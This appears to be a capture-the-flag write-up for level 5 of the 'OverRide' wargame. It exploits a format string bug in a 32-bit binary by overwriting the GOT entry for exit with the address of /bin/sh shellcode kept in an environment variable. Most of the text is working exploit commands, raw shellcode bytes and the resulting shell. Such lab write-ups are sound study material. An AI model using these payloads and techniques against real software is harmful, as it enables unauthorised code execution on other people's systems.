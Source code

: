 # Level 5

Ah `printf`, don't we love it?

```shell
level05@OverRide:~$ ./level05 
%p
0x64
```
We have another 32bit program with vulnerable format strings on our hands.

Let's find where we control the buffer:
```shell
level05@OverRide:~$ ./level05 < <(python -c 'print "BBBB" + "%p|"*10') 
bbbb0x64|0xf7fcfac0|0xf7ec3add|0xffffd6ef|0xffffd6ee|(nil)|0xffffffff|0xffffd774|0xf7fdb000|0x62626262|
```
Oh yeah, our uppercase characters get converted to lowercase, but we can see it's the 10th argument:
```shell
level05@OverRide:~$ ./level05 < <(python -c 'print "0000%10$p"')
00000x30303030
```

Ok Let's find the value of `exit` to replace it in the GOT
```shell
level05@OverRide:~$ gdb ./level05                                    
(gdb) disas exit                  
Dump of assembler code for function exit@plt:                        
   0x08048370 <+0>:     jmp    *0x80497e0                            
   0x08048376 <+6>:     push   $0x18                                 
   0x0804837b <+11>:    jmp    0x8048330                             
End of assembler dump.            
```
`0x80497e0` is `exit` in the GOT

But this time we don't just have a function to call, what are we gonna do!?
```shell
export PWN=$(python -c 'print "\x90"*500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
Of course! Let's now get the address of our shellcode with some safety margin for good measure.
```shell
level05@OverRide:~$ gdb ./level05 
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) p (char*)getenv("PWN")
$1 = 0xffffdd10 "\220\220\220\220\220\220\220\220\220\220\220\220...
```
Let's add a good `0x64` just to be safe -> `0xFFFFDD74`
GOT exit -> `0x80497e0`
```shell
level05@OverRide:~$ ./level05   < <(python -c 'print "\xe0\x97\x04\x08" + "%{}$p".format(str(0xffffdd74)) + "%10$n"')
```
It doesn't work this time, the reason is that we just can't use such a big number of characters for padding. We'll have to split our writes between the higher and lower bytes, and use the modifier `h` to only write 2 bytes, like this:
```shell
level05@OverRide:~$ ./level05 < <(echo "AAAABBBB%10\$p%11\$p")
aaaabbbbb0x616161610x62626262
```

Which translates to:
`(GOT ADDR LO BYTES ADDR | GOT ADDR HI BYTES ADDR ) ` +
`(( % PADDING | LO BYTES OF PWN ADDR - 8 | THROWAWAY CONV) | ( % SRC | 10TH VALUE IN STACK | $hn WRITE 2 BYTES))` +
`(( % PADDING | HI BYTES OF PWN ADDR - LO BYTES | THROWAWAY CONV) | (% SRC | 11TH VAL IN STACK | $hn WRITE 2 BYTES))`

Which should give us before conversions
`(0x80497E0 + 0x80497E2) + ( %(0xDD74-8)$x + %10$hn ) + ( %(0xFFFF-DD74)$x  + %11$hn)`

In python:
```python
"\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%{}c".format(0xdd74-8) + "%10$hn" + "%{}c".format(0xffff-0xdd74) + "%11$hn"
```

Let's try it
```shell
level05@OverRide:~$ (python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%{}c".format(0xdd74-8) + "%10$hn" + "%{}c".format(0xffff-0xdd74) + "%11$hn"' ; cat ) | ./level05 | tr -d ' '

[...]
whoami
level06
```

What a handful!
